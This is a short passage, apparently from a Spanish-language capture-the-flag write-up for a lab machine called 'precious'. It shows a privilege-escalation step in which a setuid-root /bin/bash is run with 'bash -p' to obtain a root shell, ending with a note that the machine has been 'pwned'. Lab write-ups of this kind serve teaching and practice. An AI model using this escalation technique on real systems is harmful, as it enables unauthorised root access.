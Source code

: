 ```bash
-rwsr-sr-x 1 root root 1234376 Mar 27  2022 /bin/bash
henry@precious:~$ bash -p
bash-5.1# whoami
root
bash-5.1#
```
Hemos pwneado la maquina!
